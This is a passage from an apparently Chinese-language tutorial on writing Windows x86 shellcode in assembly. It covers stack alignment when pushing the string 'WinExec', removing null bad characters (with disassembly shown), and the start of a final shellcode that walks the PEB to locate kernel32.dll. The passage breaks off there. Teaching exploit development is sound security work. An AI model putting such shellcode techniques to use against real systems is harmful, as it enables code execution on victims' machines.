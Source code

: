 可以用下面的代码解决这个问题。每次 `push` 操作都使栈是 4 字节对齐。

```asm
    xor esi, esi
    push esi                ; null terminated
    push 0x636578
    push 0x456e6957
    mov [ebp - 4], esp      ; var4 = "WinExec\x00"
```

**问题3 问题 2 导致的坏字符**

上面的代码可以解决栈对齐的问题，但是带来了新的坏字符问题，下面是反汇编结果：

```shell
  401007:       31 f6                   xor    esi,esi
  401009:       56                      push   esi
  40100a:       68 78 65 63 00          push   0x636578
  40100f:       68 57 69 6e 45          push   0x456e6957
```

`push 0x636578` 指令出现了 0x00 坏字符，所以还需要再修改。

```asm
    xor esi, esi
    pushw si                ; null terminated
    push 0x63
    pushw 0x6578
    push 0x456e6957
```

这样修改，先 `push` 两个字节，再 `push` 四个字节，`push` 两个字节，`push` 四个字节，最终栈还是四字节对齐。对应的机器码：

```shell
  401007:       31 f6                   xor    esi,esi
  401009:       66 56                   push   si
  40100b:       6a 63                   push   0x63
  40100d:       66 68 78 65             pushw  0x6578
  401011:       68 57 69 6e 45          push   0x456e6957
```

可以看到成功消除了 0x00 坏字符。

最终的 shellcode：

```asm
format PE console
use32
entry start
start:
    ; establish a new stack frame
    pushad
    push ebp
    mov ebp, esp

    sub esp, 0x18           ; alloc for local variables
    
    xor esi, esi
    pushw si                ; null terminated
    push 0x63
    pushw 0x6578
    push 0x456e6957
    mov [ebp - 4], esp      ; var4 = "WinExec\x00"

    ; find kernel32.dll
    xor esi, esi
    mov ebx, [fs:0x30 + esi]
    mov ebx, [ebx + 0x0c]   ; &PEB_LDR_DATA
    mov ebx, [ebx + 0x14]   ; &InMemoryModuleList
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next(ntdll.dll)
```